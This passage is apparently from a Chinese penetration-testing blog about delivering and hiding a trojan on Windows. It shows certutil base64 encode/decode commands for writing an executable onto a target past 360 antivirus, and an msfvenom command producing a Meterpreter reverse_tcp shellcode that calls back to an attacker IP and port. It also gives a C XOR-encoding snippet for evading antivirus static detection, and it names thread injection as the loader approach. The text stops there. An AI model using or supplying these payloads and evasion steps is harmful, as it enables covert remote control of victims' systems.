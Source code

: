 certutil 绕过 360 的方式网上已经有了（[记一次渗透测试后引发的小扩展](http://mp.weixin.qq.com/s?__biz=MzAwMzYxNzc1OA==&mid=2247488584&idx=1&sn=c2aa80f6af4a018f89d872865ab86f38&chksm=9b3932f9ac4ebbefadeda1f7c374a2f3d24cf88ccb841643b27c37ed9dfe975db14dc1dc776e&scene=21#wechat_redirect)），

这里再提一个 certutil 编码解码。

windows 不像 linux，自带 base64 编码解码，但是 certutil 可以

```
certutil -encode x.exe x.txt

certutil -decode x.txt x.exe
```

通过编码指令将 exe 编码生成 txt 文件，然后通过 echo 写入，再调用 certutil 解码还原为 PE 文件

![](https://mmbiz.qpic.cn/mmbiz_png/fZT30hrVgRfu0caWH4oME8ZFJy9M3kbLv8htLMmLOYnhNyYtayvPeebztmNZ0F3pqzMyibzcWU4smXNDIrgicZeg/640?wx_fmt=png)

但是此时还有一个问题，就是 echo 无法一次性写入，需要换行，但是马编码后太长，所以不太方便。

暂时想到两个解决办法：

*   python 脚本边读本地 txt 边 echo 到对方服务器
    
*   写一个小程序，作用是在当前目录输出 txt，再通过压缩的方式压缩程序大小，再通过 certutil 编码写入解码执行
    

> 木马免杀

解决了下载问题，接下来就是木马免杀，这次我就不再怀旧了，毕竟也没啥用，直接上部分干货吧

用 c 写木马，一般绕不过两个问题：

*   shellcode 编码免杀
    
*   shellcode 加载方式免杀
    

单纯使用 metaslpoit 生成 shellcode：

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.31.93 LPORT=1234 -f c > ~/Desktop/text.c
```

不管使用什么加载方式，如果只是单纯的加载这种 shellcode，是一定会被杀毒软件查杀的，网上有人提出用 msfvenom 自带的编码器编码，我尝试了一下，仍然会被火绒 kill，所以这里可以自己去编码：

```
int key = 0x1a;
    unsigned char shellcode[sizeof(buf)] = "";
    for (int i = 0; i < sizeof(buf) - 1; i++)
    {
        shellcode[i] = (buf[i] ^ key) - 0x4;
    }
```

就这样一个很简单的异或 + 减去一个随机字符，就可以绕过杀软对 shellcode 的静态查杀，当然木马也需要进行相应的解码。

shellcode 加载方式现在也有很多，传统的方法是开辟一块地址空间存放 shellcode，并将 EIP/RIP 指向该地址。

我这里选择线程注入的方式来做到隐蔽和免杀。
